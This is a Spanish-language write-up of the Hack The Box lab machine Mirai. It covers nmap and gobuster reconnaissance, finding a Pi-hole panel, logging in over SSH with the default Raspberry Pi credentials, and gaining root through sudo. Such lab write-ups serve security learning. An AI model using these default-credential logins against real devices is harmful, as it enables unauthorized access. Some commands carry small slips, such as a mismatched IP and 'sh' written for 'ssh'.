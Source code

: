 ```yaml
---
layout: single
title: HTB-Mirai
excerpt: "WriteUp de la máquina HTB Mirai -- Type: Easy"
date: 2022-03-29
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/mirai/miraiicon.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```


<centre><img src="/assets/images/mirai/mirai.png"></centre>

[Maquina](https://app.hackthebox.com/machines/64) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.48 
```

```bash
Nmap scan report for 10.10.10.48
Host is up (0.038s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Al comprobar que el puerto 80 esta abierto, nos disponemos a ver que se encuentra en él. Cuando entramos se encuentra en blanco, pero podemos usar la herramienta **dirbuster** para explorar el servidor web en busqueda de firectorios y ficheros en el.

Comando:
```bash
gobuster dir --url http://10.10.29.96/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

Resultados:
```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.48/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/29 12:27:48 Starting gobuster in directory enumeration mode
===============================================================
/_framework/blazor.webassembly.js (Status: 200) [Size: 61]
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
/swfobject.js         (Status: 200) [Size: 61]                               
                                                                             
===============================================================
2022/03/29 12:28:10 Finished
===============================================================
```

Al ver los resultados comprobamos que tiene un directorio **/admin** al cual comprobaremos si hay algo.

<centre><img src="/assets/images/mirai/pihole.png"></centre>

Nos encontramos que hay un panel de administracion llamado **Pi-Hole**
lo cual nos da una pista de que nos estamos enfrentando a un SO Raspbian.


## Explotación
Ahora que sabemos a que nos enfrentamos y la "temática" de la maquina, en la botnet de **Mirai** usaban usuarios y credenciales por defecto y las de un dispositivos con este SO son:

```txt
pi:raspberry
```

Intentamos conectarnos por SSH con estas credenciales.

```bash
sh pi@10.10.10.48 
```

Y vemos que nos da acceso a la shell de la máquina.

```bash
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ED25519 key fingerprint is SHA256:TL7joF/Kz3rDLVFgQ1qkyXTnVQBTYrV44Y2oXyjOa60.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ 
```

Usamos el comando **sudo su** para elevar privilegios y con ello ser root

```bash
pi@raspberrypi:~ $ sudo su
root@raspberrypi:/home/pi# 
```